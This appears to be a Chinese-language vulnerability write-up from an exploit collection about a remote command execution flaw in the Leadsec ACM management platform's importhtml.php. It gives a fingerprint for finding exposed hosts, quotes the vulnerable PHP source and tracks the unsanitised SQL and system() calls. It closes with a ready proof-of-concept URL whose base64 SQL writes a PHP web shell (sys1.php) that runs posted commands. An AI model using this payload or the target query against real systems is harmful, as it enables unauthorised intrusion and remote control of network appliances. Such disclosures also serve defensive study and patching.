


网御 Leadsec ACM管理平台 importhtml.php 远程命令执行漏洞¶
漏洞描述¶
网御 Leadsec ACM管理平台 importhtml.php文件存在SQL注入导致 远程命令执行漏洞
漏洞影响¶
网御 Leadsec ACM管理平台
网络测绘¶
title="Leadsec ACM-管理平台"
漏洞复现¶
登录页面

出现漏洞的文件 importhtml.php
<?php
include_once("global.func.php");
if($_SESSION['language']!="english")
{
require_once ("include/language_cn.php");
}
else
{
require_once ("include/language_en.php");
}
if(isset($_GET['type'])) $get_type = $_GET['type'];
if(isset($_GET['tab'])) $get_tab = $_GET['tab'];
if(isset($_GET['sql'])) $get_sql = $_GET['sql'];
if($get_type == "exporthtmlpost")
{
$get_tab = $arr_export_cn[$get_tab];
exportHtml("$get_tab",stripslashes(base64_decode($get_sql)));
}
elseif($get_type == "exporthtmlchat")
{
$get_tab = $arr_export_cn[$get_tab];
exportHtmlChat("$get_tab",stripslashes(base64_decode($get_sql)));
}
elseif($get_type == "exporthtmlmail")
{
$get_tab = $arr_export_cn[$get_tab];
exportHtmlMail("$get_tab",stripslashes(base64_decode($get_sql)));
}
elseif($get_type == "exporthtmlwebsend")
{
$get_tab = $arr_export_cn[$get_tab];
exportHtmlWebSend("$get_tab",stripslashes(base64_decode($get_sql)));
}
elseif($get_type == "exporthtmlwebrecv")
{
$get_tab = $arr_export_cn[$get_tab];
exportHtmlWebRecv("$get_tab",stripslashes(base64_decode($get_sql)));
}
?>
跟踪exportHtmlMail函数
function exportHtmlMail($filename,$sql){
Header( "Expires: 0" );
Header( "Pragma: public" );
Header( "Cache-Control: must-revalidate, post-check=0, pre-check=0" );
Header( "Cache-Control: public");
Header( "Content-Type: application/octet-stream" );
header("Accept-Ranges: bytes");
header("Content-Disposition: attachment; filename=$filename.html");
echo "<html>\n";
echo "<head><title>报表</title></head>\n";
echo "<body>\n";
$conn = connOther();
$result = mysql_query($sql,$conn);
while ($data= mysql_fetch_array($result)){
$post_content = "";
if($data['mail_file_path'] == "(null)"){
$post_content = "<font color=red>内容审计未启用</font>";
}
else{
$post_filename=$data['mail_file_path'];
$ifother = "";
$ifother = ifExistOther($post_filename);
if($ifother!=""){
$post_filename = $ifother;
}
$str = "/usr/bin/cap2con $post_filename pop";
system($str,$returnvalue);
$post_filename=str_replace(".cap",".eml",$post_filename);
$post_content = file_get_contents($post_filename);
$rec=new mime_decode;
$post_content=$rec->decode_mime_string($post_content);
//...
}
}
}
这里可以发现通过base64解码后执行的Sql语句结果传入函数exportHtmlMail中调用system执行, 而 $post_filename 可控
$str = "/usr/bin/cap2con $post_filename pop";
验证POC
https://xxx.xxx.xxx.xxx/importhtml.php?type=exporthtmlmail&tab=tb_RCtrlLog&sql=c2VsZWN0IDB4M2MzZjcwNjg3MDIwNjU2MzY4NmYyMDczNzk3Mzc0NjU2ZDI4MjQ1ZjUwNGY1MzU0NWIyMjYzNmQ2NDIyNWQyOTNiM2YzZSBpbnRvIG91dGZpbGUgJy91c3IvaGRkb2NzL25zZy9hcHAvc3lzMS5waHAn
访问成功后会触发下载日志文件，再访问 sys1.php
